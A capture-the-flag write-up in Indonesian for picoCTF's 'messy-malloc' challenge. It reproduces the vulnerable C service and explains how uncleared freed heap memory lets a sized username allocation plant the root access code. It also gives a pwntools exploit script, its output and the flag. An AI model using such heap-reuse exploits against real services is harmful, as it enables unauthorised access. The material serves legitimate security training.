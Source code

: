 # messy-malloc (300 Points)
Can you take advantage of misused malloc calls to leak the secret through this service and get the flag? Connect with nc 2019shell1.picoctf.com 37915. Source.
# Solved
Disini kita diberikan sebuah file binary
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

#define LINE_MAX 256
#define ACCESS_CODE_LEN 16
#define FLAG_SIZE 64

struct user {
  char *username;
  char access_code[ACCESS_CODE_LEN];
  char *files;
};

struct user anon_user;
struct user *u;

void print_flag() {
  char flag[FLAG_SIZE];
  FILE *f = fopen("flag.txt", "r");
  if (f == NULL) {
    printf("Please make sure flag.txt exists\n");
    exit(0);
  }

  if ((fgets(flag, FLAG_SIZE, f)) == NULL){
    puts("Couldn't read flag file.");
    exit(1);
  };

  unsigned long ac1 = ((unsigned long *)u->access_code)[0];
  unsigned long ac2 = ((unsigned long *)u->access_code)[1];
  if (ac1 != 0x4343415f544f4f52 || ac2 != 0x45444f435f535345) {
    fprintf(stdout, "Incorrect Access Code: \"");
    for (int i = 0; i < ACCESS_CODE_LEN; i++) {
      putchar(u->access_code[i]);
    }
    fprintf(stdout, "\"\n");
    return;
  }
  
  puts(flag);
  fclose(f);
}

void menu() {
  puts("Commands:");
  puts("\tlogin - login as a user");
  puts("\tprint-flag - print the flag");
  puts("\tlogout - log out");
  puts("\tquit - exit the program");
}
 
const char *get_username(struct user *u) {
  if (u->username == NULL) {
    return "anon";
  }
  else {
    return u->username;
  }
}

int login() {
  u = malloc(sizeof(struct user));

  int username_len;
  puts("Please enter the length of your username");
  scanf("%d", &username_len);
  getc(stdin);

  char *username = malloc(username_len+1);
  u->username = username;

  puts("Please enter your username");
  if (fgets(username, username_len, stdin) == NULL) {
    puts("fgets failed");
    exit(-1);
  }

  char *end;
  if ((end=strchr(username, '\n')) != NULL) {
    end[0] = '\0';
  }
  
  return 0;
  
}

int logout() {
  char *user = u->username;
  if (u == &anon_user) {
    return -1;
  }
  else {
    free(u);
    free(user);
    u = &anon_user;
  }
  return 0;
}

int main(int argc, char **argv) {

  setbuf(stdout, NULL);

  char buf[LINE_MAX];

  memset(anon_user.access_code, 0, ACCESS_CODE_LEN);
  anon_user.username = NULL;

  u = &anon_user;
  
  menu();

  while(1) {
    puts("\nEnter your command:");
    fprintf(stdout, "[%s]> ", get_username(u));

    if(fgets(buf, LINE_MAX, stdin) == NULL)
      break;

    if (!strncmp(buf, "login", 5)){
      login();
    }
    else if(!strncmp(buf, "print-flag", 10)){
      print_flag();
    }
    else if(!strncmp(buf, "logout", 6)){
      logout();
    }
    else if(!strncmp(buf, "quit", 4)){
      return 0;
    }
    else{
      puts("Invalid option");
      menu();
    }
  }
}
```
Pada kasus ini, tidak memiliki unsur <b>Bufferoverflow</b> akan tetapi <b>Heap</b> pada <b>malloc</b>, pada kode
```cpp
int login() {
  u = malloc(sizeof(struct user));

  int username_len;
  puts("Please enter the length of your username");
  scanf("%d", &username_len);
  getc(stdin);

  char *username = malloc(username_len+1);
  u->username = username;

  puts("Please enter your username");
  if (fgets(username, username_len, stdin) == NULL) {
    puts("fgets failed");
    exit(-1);
  }

  char *end;
  if ((end=strchr(username, '\n')) != NULL) {
    end[0] = '\0';
  }
  return 0;
}
```
```cpp
u = malloc(sizeof(struct user));

int username_len;
puts("Please enter the length of your username");
scanf("%d", &username_len);
getc(stdin);

char *username = malloc(username_len+1); // Celahnya disini
u->username = username;
```
Disini kita bisa melebihi size dari struct user tersebut, diketahui bahwa besar dari <b>char pointer</b> adalah <b>8 byte</b>
```cpp
struct user {
  char *username; // 8 Byte
  char access_code[ACCESS_CODE_LEN]; // 16 Byte (ROOT_ACCESS_CODE)
  char *files; // 8 Byte
};
```
Sebelum mendapatkan flag kita harus melewati instruksi ini
```cpp
(ac1 != 0x4343415f544f4f52 || ac2 != 0x45444f435f535345)
```
Jika hex tersebut di ubah menjadi string maka hasilnya <b>ROOT_ACCESS_CODE</b>, disini sudah kita dapati logika pada struktur tersebut. Bahwasannya kita harus mencoba meng-overwrite address pada struct <b>access_code</b>, inilah code yang saya gunakan
```python
from pwn import *

p = remote("2019shell1.picoctf.com", 37915)

ROOT = "ROOT_ACCESS_CODE"
PAYLOAD = "A" * 8 + ROOT + "A" * 8

# Login
p.sendlineafter("command:", "login")
p.sendlineafter("length", str(len(PAYLOAD)))
p.sendlineafter("enter", PAYLOAD)

# Logout
p.sendlineafter("command:", "logout")
p.sendlineafter("command:", "login")
p.sendlineafter("length", str(3))
p.sendlineafter("enter", "ANY")

p.sendlineafter("command:", "print-flag")

p.recv()

p.interactive()
```
```console
$ python solve.py
[+] Opening connection to 2019shell1.picoctf.com on port 37915: Done
[*] Switching to interactive mode
picoCTF{g0ttA_cl3aR_y0uR_m4110c3d_m3m0rY_4ac50b08}
```
Flag : <b>picoCTF{g0ttA_cl3aR_y0uR_m4110c3d_m3m0rY_4ac50b08}</b>